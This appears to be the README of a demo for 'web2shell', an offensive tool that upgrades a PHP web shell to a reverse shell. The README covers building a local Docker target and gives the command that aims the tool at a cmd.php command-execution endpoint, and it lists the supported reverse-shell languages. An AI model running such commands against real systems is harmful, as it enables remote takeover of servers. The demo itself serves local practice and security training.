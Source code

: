# web2shell docker demo

1. Build the docker image (`docker build . --tag webshell`)
2. Run the image (`docker run -it -p 8080:80 webshell`)
3. Use web2shell to secure a remote connection on the docker0 interface (`python3 web2shell.py --interface docker0 http://127.0.0.1:8080/cmd.php?cmd=SHELL`)

Note: This Docker container has the binaries for all supported reverse shells. They are as follows:

- Perl
- PHP
- Python
- Ruby
- Golang

